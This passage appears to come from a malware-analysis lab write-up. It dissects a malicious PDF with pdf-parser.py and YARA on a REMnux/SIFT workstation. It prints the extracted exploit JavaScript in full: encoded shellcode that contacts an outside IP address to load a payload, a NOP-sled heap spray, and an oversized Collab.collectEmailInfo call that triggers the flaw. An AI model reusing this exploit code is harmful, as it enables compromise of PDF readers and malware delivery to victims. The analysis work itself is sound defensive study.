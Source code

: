 ```

 b'\r\n\r\nfunction zfnvkWYOKv()\r\n{\r\n\tgwKPaJSHReD0hTAD51qao1s = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");\r\n\r\n\ttuVglXABgYUAQFEYVPi3lf = unescape("%u9090%u9090"); nDsGdY1TdZUDCCpNeYRdk28BeZ5R = 20 + gwKPaJSHReD0hTAD51qao1s.length\r\n\twhile (tuVglXABgYUAQFEYVPi3lf.length < nDsGdY1TdZUDCCpNeYRdk28BeZ5R) tuVglXABgYUAQFEYVPi3lf += tuVglXABgYUAQFEYVPi3lf;\r\n\tvmRV3x9BCtZs = tuVglXABgYUAQFEYVPi3lf.substring(0, nDsGdY1TdZUDCCpNeYRdk28BeZ5R);\r\n\tdVghsR4KOJoE6WzWkTW0vz = tuVglXABgYUAQFEYVPi3lf.substring(0, tuVglXABgYUAQFEYVPi3lf.length-nDsGdY1TdZUDCCpNeYRdk28BeZ5R);\r\n\twhile(dVghsR4KOJoE6WzWkTW0vz.length + nDsGdY1TdZUDCCpNeYRdk28BeZ5R < 0x40000) dVghsR4KOJoE6WzWkTW0vz = dVghsR4KOJoE6WzWkTW0vz + dVghsR4KOJoE6WzWkTW0vz + vmRV3x9BCtZs;\r\n\r\n\tdddA9SvmIp7bFVTvbRcRoFQ = new Array();\r\n\r\n\tfor ( i = 0; i < 2020; i++ ) dddA9SvmIp7bFVTvbRcRoFQ[i] = dVghsR4KOJoE6WzWkTW0vz + gwKPaJSHReD0hTAD51qao1s;\r\n\r\n\tfunction rHjX2qS2YpWWuvNjX9JfKZ3F(qlrSKFKRQUuUXlV0ES9I6oz4pM, oq7g9J0RSV3FcMgr9DLvvDY8ee)\r\n\t{\r\n\t\tvar lTZGviUaML2vE40mHbYk = "";\r\n\r\n\t\twhile (--qlrSKFKRQUuUXlV0ES9I6oz4pM >= 0) lTZGviUaML2vE40mHbYk += oq7g9J0RSV3FcMgr9DLvvDY8ee;\r\n\t\treturn lTZGviUaML2vE40mHbYk;\r\n\t}\r\n\r\n\tCollab.collectEmailInfo({msg:rHjX2qS2YpWWuvNjX9JfKZ3F(4096, unescape("%u0909%u0909"))});\r\n}\r\n\r\n'

remnux@siftworkstation: ~/Work
$ pdf-parser.py --object 13 -f -w -d obj13.js badpdf.pdf 
This program has not been tested with this version of Python (3.8.10)
Should you encounter problems, please use Python version 3.4.2
obj 13 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Filter /FlateDecode
    /Length 1183
  >>
```

### Scan with yara rule
```
remnux@siftworkstation: ~/Work
$ pdf-parser.py -y yara.yar badpdf.pdf 
```
